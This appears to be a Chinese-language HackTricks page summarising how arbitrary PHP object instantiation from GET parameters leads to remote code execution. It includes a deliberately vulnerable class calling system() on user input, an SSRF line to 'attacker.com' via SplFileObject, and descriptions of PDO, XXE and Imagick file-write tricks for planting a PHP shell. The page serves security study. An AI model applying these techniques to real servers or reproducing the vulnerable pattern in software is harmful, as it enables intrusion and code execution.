 # PHP - RCE 滥用对象创建: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

这基本上是对 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 的总结

## 介绍

创建新的任意对象，例如 `new $_GET["a"]($_GET["a"])`，可能导致远程代码执行 (RCE)，如 [**写作**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 中详细说明的那样。本文档强调了实现 RCE 的各种策略。

## 通过自定义类或自动加载实现 RCE

语法 `new $a($b)` 用于实例化一个对象，其中 **`$a`** 代表类名，**`$b`** 是传递给构造函数的第一个参数。这些变量可以来自用户输入，如 GET/POST，可能是字符串或数组，或来自 JSON，可能呈现为其他类型。

考虑下面的代码片段:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
在这种情况下，将 `$a` 设置为 `App` 或 `App2`，将 `$b` 设置为系统命令（例如，`uname -a`）会导致该命令的执行。

**自动加载函数** 可以被利用，如果没有这样的类可以直接访问。这些函数在需要时会自动从文件加载类，并使用 `spl_autoload_register` 或 `__autoload` 定义：
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
自动加载的行为因PHP版本而异，提供不同的RCE可能性。

## 通过内置类进行RCE

在缺乏自定义类或自动加载器的情况下，**内置PHP类**可能足以实现RCE。这些类的数量根据PHP版本和扩展的不同而在100到200之间。可以使用`get_declared_classes()`列出它们。

可以通过反射API识别感兴趣的构造函数，如以下示例所示，以及链接 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)。

**通过特定方法进行RCE包括：**

### **SSRF + Phar反序列化**

`SplFileObject`类通过其构造函数启用SSRF，允许连接到任何URL：
```php
new SplFileObject('http://attacker.com/');
```
SSRF 可以导致在 8.0 之前的 PHP 版本中使用 Phar 协议的反序列化攻击。

### **利用 PDOs**

PDO 类构造函数允许通过 DSN 字符串连接到数据库，可能会启用文件创建或其他交互：
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP 版本高达 5.3.22 和 5.4.12 易受通过 `SoapClient` 和 `SimpleXMLElement` 构造函数的 XXE 攻击，具体取决于 libxml2 的版本。

## RCE via Imagick Extension

在对 **项目依赖** 的分析中，发现 **Imagick** 可以通过实例化新对象来实现 **命令执行**。这为利用漏洞提供了机会。

### VID 解析器

识别出 VID 解析器能够将内容写入文件系统中任何指定路径的能力。这可能导致在可通过网络访问的目录中放置 PHP shell，从而实现远程代码执行 (RCE)。

#### VID 解析器 + 文件上传

注意到 PHP 会将上传的文件临时存储在 `/tmp/phpXXXXXX` 中。Imagick 中的 VID 解析器利用 **msl** 协议，可以处理文件路径中的通配符，便于将临时文件转移到选定位置。这种方法提供了在文件系统内实现任意文件写入的额外途径。

### PHP 崩溃 + 暴力破解

在 [**原始写作**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 中描述的方法涉及上传触发服务器崩溃的文件，然后再删除。通过暴力破解临时文件的名称，Imagick 可以执行任意 PHP 代码。然而，发现这种技术仅在过时的 ImageMagick 版本中有效。

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}

